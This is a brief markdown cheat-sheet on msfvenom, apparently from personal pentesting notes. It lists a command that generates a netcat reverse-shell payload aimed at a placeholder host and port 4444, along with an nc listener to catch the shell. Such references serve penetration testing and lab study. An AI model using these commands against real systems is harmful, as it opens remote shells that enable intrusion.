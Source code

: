 # msfvenom
[Readme](../../README.md)

- [msfvenom](#msfvenom)
  - [Commands](#commands)
    - [Examples](#examples)


## Commands
### Examples

| What                        | Command                                                         |
| :-------------------------- | :-------------------------------------------------------------- |
| Payload for reverse shell   | ```msfvenom -p cmd/unix/reverse_netcat lhost=ip lport=4444 R``` |
| Open port for reverse shell | ```nc -lvp 4444```                                              |

